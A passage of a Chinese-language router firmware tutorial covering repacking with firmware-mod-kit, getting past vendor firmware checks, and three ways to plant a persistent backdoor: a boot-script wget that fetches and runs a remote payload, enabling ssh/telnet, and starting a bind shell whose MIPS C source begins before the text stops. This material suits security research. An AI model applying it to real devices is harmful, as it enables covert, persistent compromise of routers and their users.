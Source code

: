 

修改完期望的东西之后，需要重新构建固件，使用如下命令

```
./build-firmware.sh fmk/ -nopad -min
```

生成的 new-firmware.bin 文件即为新的固件

![image-20210121235034419](路由器固件解包打包.assets/image-20210121235034419.png)

### 需要注意什么（可能会发生的意外）

**与原固件的差别**

在修改完期望内容之后重新构建固件的时候，有时候并不会成功，原因在于在重新打包的时候，与原固件的大小不一致，导致打包失败，此时就需要修改大小，这里在之前看一篇文章时（http://cn-sec.com/archives/92207.html），大佬提供的思路是将文件系统里的图片文件缩小，从而缩小重打包后的固件大小，需要好好研究一下代码思路和修改原理

**重打包后的固件不能通过路由器的校验**

有些路由器会校验固件尾部的字节，确定是否为“官方”固件，这时候就需要修改对应的字节值，从而达成通过校验。这里就需要进行逆向分析，合适地修改对应字节值。

## 植入后门的思路有哪些

### **思路一：**

寻找在启动过程中自动调用的脚本，在其中添加我们要执行的命令。在文件系统中找到一个每次重启路由器时都会执行的shell脚本，我们以一个符合条件的脚本，在该脚本中添加指令，让路由器重启时，从我们指定的url下载后门到tmp目录并执行，如wget命令。

### **思路二：**

在脚本/usr/sbin/gencert.sh中打开路由器的ssh或者telnet，这样在路由器重启后就可以直接通过ssh或者telnet连接路由器。

### **思路三：**

在文件系统中放入我们编译好的后门程序，在/usr/sbin/gencert.sh中执行后门程序，这样在路由器重启时就会启动后门。



关于思路三，需要找对应的后门源码，然后在特定的环境下进行编译

所谓对应，就是看设备的固件是基于什么架构的，可以用readelf等命令查看，如下是MIPS小端架构的一段后门源码

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT  9999
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox
  * Arch : MIPS
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc
  */
int main() {
   int serverfd, clientfd, server_pid, i = 0;
```